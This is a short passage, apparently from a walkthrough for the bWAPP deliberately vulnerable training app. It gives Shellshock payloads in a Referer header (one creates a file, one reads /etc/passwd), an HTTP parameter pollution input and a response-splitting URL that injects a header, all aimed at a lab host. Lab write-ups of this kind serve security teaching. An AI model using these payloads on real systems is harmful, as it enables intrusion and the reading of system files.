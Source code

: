 ### 💀  Shellshock Vulnerability (CGI) 💀

Modify /bWAPP/cgi-bin/shellshock.sh request

```
Referer: () { nothing;}; /bin/touch /tmp/malicious
```

```
Referer: () { nothing;}; echo; /bin/cat /etc/passwd
```

# Other bugs...

### 💀  HTTP Paramter Pollution 💀

Put name

```
bee&movie=1
```

then every link will choose G.I Joe: Retaliation movie.

### 💀  HTTP Response Splitting 💀

```
http://192.168.1.20/bWAPP/http_response_splitting.php?url=http://itsecgames.blogspot.com%0AReferer%3agoogle.com
```
